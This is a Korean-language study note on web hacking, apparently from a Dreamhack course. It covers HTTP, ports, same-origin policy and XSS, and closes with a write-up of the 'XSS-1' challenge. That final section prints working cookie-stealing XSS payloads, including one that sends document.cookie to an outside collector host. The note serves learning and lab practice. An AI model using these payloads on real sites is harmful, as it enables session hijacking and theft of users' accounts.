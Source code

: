 # Web Hakcing

## STAGE 2 



## HTTP



    HTTP : 서버와 클라이언트의 데이터 교환을 요청하고 응답하는 형식의 
    정의를 한 프로토콜 중 하나이다.

    *웹 서버는 HTTP 서버를 HTTP 서비스 포트에 대기시킨다.
    =이러한 포트는 일바전으로 TCP/80 or TCP/8080 이다.


## Network Port/Service Port

    네트워크 포트 : 네트워크에서 서버와 클라이언트가 정보를 교환하는 
    추상화된 장소를 의미한다.

    *0번 부터 65535번까지, 총 65536개의 같은 수의 네트워크 포트를 사용한다.


    서비스 포트 : 네트워크 포트 중에서 특정 서비스가 점유하고 있는 포트를 말함.
    Ex) HTTP가 80번 포트를 점유하고 있다면 서비스 포트는 80번 포트가 된다.


## Request
 
    /index.html
    
    HTTP/1.1
    Host: dreamhack.io
    Connection: keep-alive
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36

## Response

    HTTP/1.1  200 ok

    
    Server: Apache/2.4.29 (Ubuntu)
    Content-Length: 61
    Connection: Keep-Alive
    Content-Type: text/html

    <!doctype html>
    <html>
    <head>
    </head>
    <body>
    </body>
    </html>



### `Same Origin Policy의 오리진

    
    오리진 : 프로토콜, 포트, 호스트로 구성이 됨.
    * 모두 일치해야 동일한 오리진이라고 할 수 있음.


![오리진](https://cdn.discordapp.com/attachments/956190154454876183/1022424599792726056/unknown.png)



### `XSS`



    XSS : 클라이언트 사이드 취약점 중 하나로, 공격자가 웹 리소스에
    악성 스크립트를 삽입을 하여서 이용자의 웹 브라우저에서 해당
    스크립트를 실행할 수 있다.



## `XSS 발생 종류와 설명`


 ![XSS](https://media.discordapp.net/attachments/956190154454876183/1022464035733635092/unknown.png?width=477&height=408)



 ## `XSS 스크립트의 예시`


+ 쿠키 및 세션 탈취 공격 코드


![쿠키/세션 탈취 공격 코드](https://cdn.discordapp.com/attachments/956190154454876183/1022466126434795570/unknown.png)


+ 페이지 변조 공격 코드/ 위치 이동 공격 코드


![페이지 변조 공격/위치 이동 공격](https://cdn.discordapp.com/attachments/956190154454876183/1022466146139639828/unknown.png)



### `Stored XSS`


    Stored XSS : 서버의 데이터베이스 또는 파일 등의 형태로 저장된
    악성 스크립트를 조회할 때 발생하는 XSS이다.

    Ex) 게시물/댓글에 악성 스크립트를 포함하여 업로드 하는 방식임.


### `XSS-1`

    / : 인덱스 페이지
    /vuln : 이용자가 입력한 값을 출력을 하는 것
    /meno : 이용자가 메모를 남길 수 있으며, 작성한 메모를 출력
    /flag : 전달된 URL에 임의 이용자가 접속하게 함. 
      => 해당 이용자의 쿠키에는 FLAG가 존재함.


# 쿠키 탈취

## memo 페이지 사용

    flag 엔드포인트에서 다음과 같은 익스플로잇 코드를 입력하면
    memo 엔드포인트에서 임의 이용자의 쿠키 정보를 확인할 수 있음

    <script>location.href = "/memo?memo="+document.cookie;</script>

## 웹 서버 사용

    외부에서 접근 가능한 웹 서버를 통해 탈취한 쿠키를 확인할 수 있음
    flag 기능에서 다음과 같은 익스플로잇 코드를 입력하면,
    접속 기록에 포함된 FLAG를 확인할 수 있다.

    <script>location.href = "http://RANDOMHOST.request.dreamhack.games/?memo="+document.cookie;</script>


`FALG page =>  <svg/onload=location="/memo?memo="+document.cookie;>`

    SVG 태그는 벡터 그래픽을 표현할 때 사용되는 데 이 태그를 이용하여 XSS 
    테스트가 가능하다.
















